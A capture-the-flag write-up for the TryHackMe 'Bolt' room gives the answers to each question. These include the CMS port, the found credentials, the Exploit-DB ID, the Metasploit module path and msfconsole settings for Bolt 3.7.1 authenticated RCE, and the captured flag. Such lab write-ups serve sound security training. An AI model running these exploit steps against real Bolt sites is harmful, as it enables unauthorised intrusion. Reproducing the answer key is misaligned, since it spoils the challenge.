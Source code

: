 # Bolt

> John Hammond | August 13th, 2020


-------------------------------

# Task 1 - Deploy the Machine

> This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution. You should wait for at least 3-4 minutes for the machine to start properly.

> If you have any queries or feedback you can reach me through the TryHackMe Discord server or through Twitter.

## 1. Start the machine

> Start the machine

```
No answer needed
```


# Task 2 - Hack your way into the machine!

> Once you have successfully deployed the VM , enumerate it before finding the flag in the machine.


## 1. What port number has a web server with a CMS running?

> What port number has a web server with a CMS running?

```
8000
```

## 2. What is the username we can find in the CMS?

> What is the username we can find in the CMS?

```
bolt
```

## 3. What is the password we can find for the username?

> What is the password we can find for the username?

```
boltadmin123
```

## 4. What version of the CMS is installed on the server? (Ex: Name 1.1.1)

> What version of the CMS is installed on the server? (Ex: Name 1.1.1)

```
Bolt 3.7.1
```

How should we determine this without guessing...?

## 5. There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

> There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

```
48296
```

Found with `searchsploit`

## 6. Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)

> Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)

```
exploit/unix/webapp/bolt_authenticated_rce
```

## 7. Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit

> Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit

```
use exploit/unix/webapp/bolt_authenticated_rce
set LHOST tun0
set RHOST 10.10.56.169
set USERNAME bolt
set PASSWORD boltadmin123
run
```

This will not tell you it finished. You will not have a prompt.

Just try and run commands. 

## 8. Look for flag.txt inside the machine.

> Look for flag.txt inside the machine.

```
cat /home/flag.txt
```

```
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```